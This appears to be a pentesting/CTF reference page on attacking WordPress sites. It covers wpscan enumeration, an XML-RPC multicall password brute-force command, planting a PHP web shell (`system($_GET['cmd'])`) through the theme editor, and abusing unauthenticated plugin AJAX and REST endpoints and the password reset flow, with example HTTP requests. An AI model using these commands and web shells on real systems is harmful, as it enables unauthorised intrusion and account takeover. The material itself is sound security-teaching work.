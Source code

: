 ```yaml
---
description: A popular Content Management System (CMS) for static content, with a visual UI
---
```


# WordPress

## # Related Pages

{% content-ref url="../php.md" %}
[php.md](../php.md)
{% endcontent-ref %}

## WPScan

The state-of-the-art security scanner for WordPress is `wpscan`, checking and enumerating many different vulnerabilities from plugins, backup files, and other WordPress-specific errors.&#x20;

{% embed url="https://wpscan.com/wordpress-cli-scanner" %}
WordPerss security scanner
{% endembed %}

See the [API Setup](https://github.com/wpscanteam/wpscan?tab=readme-ov-file#optional-wordpress-vulnerability-database-api) for instructions on how to use their API to get real-time updates of vulnerability data such as versions of plugins. This is highly recommended to make sure you find the newest CVEs.

The following command starts such a scan with extra options enabled and writes the output to a file:

{% code overflow="wrap" %}
```bash
wpscan --url http://$IP --enumerate p --plugins-detection aggressive -o wpscan.txt
```
{% endcode %}

The results of such a scan often reveal outdated plugins with vulnerabilities, and/or generic misconfigurations to exploit. Use a search engine here when unsure about exploiting a certain finding.

## XML RPC Brute Force

One vulnerability that is infamous with WordPress is the `/xmlrpc.php` file being public. But what is the real risk you may ask? The main risk is the `system.multicall()` function that you can interact with to send multiple XML RPC requests simultaneously, and the server will process them all separately.&#x20;

You can imagine that for a heavy request, this can amplify one request into a ton of load on the server, possibly resulting in a **Denial of Service** (DoS). Another idea is using the fact that you can send lots of request at the same time to bypass a rate limit, for password attempts, for example. There exists an RPC call to log in with a username and password to the administrator panel, and with this technique you can do so hundreds of times in one request, significantly speeding up the process ([more details](https://blog.cloudflare.com/a-look-at-the-new-wordpress-brute-force-amplification-attack/)).

The following tool implements this idea by guessing many passwords from a wordlist:

{% embed url="https://github.com/aress31/xmlrpc-bruteforcer" %}
Tool to brute force WordPress passwords using XML RPC multicall
{% endembed %}

```bash
xmlrpc-bruteforcer -u $USERNAME -w /list/rockyou.txt -x http://$IP/xmlrpc.php
```

## Authenticated RCE

When authenticated **as an admin**, you can make any changes to the site. This also means you can edit the PHP code that is executed whenever a page is visited, allowing you to write code that executes shell commands.

You should be able to access **Tools** -> **Theme File Editor** to edit the current theme:

```bash
$BASE_URL/wp-admin/theme-editor.php
```

Then, select any `.php` file you think will be executed when you visit a page. By default, there is a `functions.php` file that every other file includes, so it will always be run. Edit such a file to include any PHP code you want to execute:

```php
<?php
system($_GET["cmd"]);
```

After saving, you should be able to access the page to run the code:

```bash
$BASE_URL/?cmd=id
```

{% hint style="warning" %}
If this does not work for any reason, alternatives include the **Tools** -> **Plugin File Editor** with any plugin, then activate it at **Plugins** -> **Installed Plugins** to trigger the code:

<pre class="language-php"><code class="lang-php"><strong>&#x3C;?php
</strong><strong>system("id > /tmp/pwned");
</strong></code></pre>

As a last option, you can always upload your own malicious plugin like this:\
[https://github.com/wetw0rk/malicious-wordpress-plugin](https://github.com/wetw0rk/malicious-wordpress-plugin)
{% endhint %}

## Custom Plugins

WordPress can be extended by installing plugins, either through the store or manually by adding them to the `wp-content/plugins/` folder. Custom plugins may contain security vulnerabilities and are a very common source of WordPress issues that [#wpscan](wordpress.md#wpscan "mention") also searches for.&#x20;

### Inputs

Plugins can add several new inputs to an application that may be vulnerable to all kinds of attacks. Important to know when auditing them is knowing how you can call them.&#x20;

Starting with **actions**, these can be registered with `add_action()` and their name must be prefixed with `wp_ajax` to be accessible via the web ajax endpoint. By default, these actions require authentication of any (low-privilege) user. Registering them is done by passing a "callable" as the second argument, which may be a function name that PHP calls. See the following example:

<pre class="language-php" data-title="Authenticated Action"><code class="lang-php"><strong>add_action("wp_ajax_get_flag", "get_flag_request_callback");
</strong>
function get_flag_request_callback() {
    $value = file_get_contents('/flag.txt');
    wp_send_json_success(["value" => $value]);  // Send a JSON response
}
</code></pre>

Another more interesting action for hackers is an unauthenticated one. With the `nopriv` prefix, this automatically allows any request without authentication to run the callback function:

<pre class="language-php" data-title="Unauthenticated Action"><code class="lang-php"><strong>add_action("wp_ajax_<a data-footnote-ref href="#user-content-fn-1">nopriv</a>_reset_key", "reset_password_key_callback");
</strong>
function reset_password_key_callback() {
    $user_id = $_POST["user_id"];  // Also takes regular input
    ...
</code></pre>

Anyone can call such an API with the `/wp-admin/admin-ajax.php` endpoint, which requires a `?action=` parameter set to the **name after the prefix**, for example:

```http
POST /wp-admin/admin-ajax.php?action=reset_key HTTP/1.1
Host: localhost:1337
Content-Type: application/x-www-form-urlencoded
Content-Length: 9

user_id=2
```

***

Another type of input adding routes to the REST API at `/wp-json`. These are often registered at the `rest_api_init` action and use the `register_rest_route()` function to give a namespace and endpoint to request. The callback function will run when a request passes the permission check:

<pre class="language-php" data-title="REST API Registration"><code class="lang-php"><strong>add_action("rest_api_init", "register_user_creation_endpoint");
</strong>
function register_user_creation_endpoint() {
<strong>    register_rest_route("user/v1", "/create", [
</strong><strong>        "methods" => "POST",
</strong><strong>        "callback" => "create_user_via_api",
</strong><strong>        "permission_callback" => "__return_true", // Allow anyone to access this endpoint
</strong><strong>    ]);
</strong>}

function create_user_via_api($request) {
    $parameters = $request->get_json_params();  // Has more custom functions like JSON input
    $username = sanitize_text_field($parameters["username"]);
    ...
</code></pre>

Any unauthenticated user can request this endpoint because the `permission_callback` always returns true. A request like the following would be parsed by the callback function:

```http
POST /wp-json/user/v1/create HTTP/1.1
Host: challenge.nahamcon.com:31587
Content-Type: application/json
Content-Length: 23

{"username": "example"}
```

### Exploitation

Because any user can access authenticated actions, plugin developers should check the roles of the current user to prevent unauthorized access. The following example shows how both an `administrator` and `subscriber` may run this code:

{% code title="Role Authorization check" %}
```php
$user = wp_get_current_user();
$allowed_roles = ["administrator", "subscriber"];

if (array_intersect($allowed_roles, $user->roles)) {
    ...
}
```
{% endcode %}

Another interesting piece of code to look at is `wp-login.php` from WordPress itself. The `?action=` parameter is used in a switch statement to execute various different pieces of logic involving user accounts:

{% code title="wp-login.php" %}
```php
switch ( $action ) {
	case 'confirm_admin_email':
	case 'confirm_admin_email':
	case 'postpass':
	case 'logout':
	case 'lostpassword':
	case 'retrievepassword':
	case 'resetpass':
	case 'rp':
	case 'register':
	case 'checkemail':
	case 'confirmaction':
	case 'login':
}
```
{% endcode %}

In one vulnerability, the password reset token was generated in an insecure way, which allowed you to run the `resetpass` action on `wp-login.php` to choose a new password for the user. If you check the source code that handles this action you can see that it handles the `key` and `login` parameters for the reset key and username respectively:

```http
GET /wp-login.php?action=resetpass&key=$USER_ACTIVATION_KEY&login=admin HTTP/1.1
Host: localhost:1337
```

[^1]: "nopriv" here implies unauthenticated&#x20;
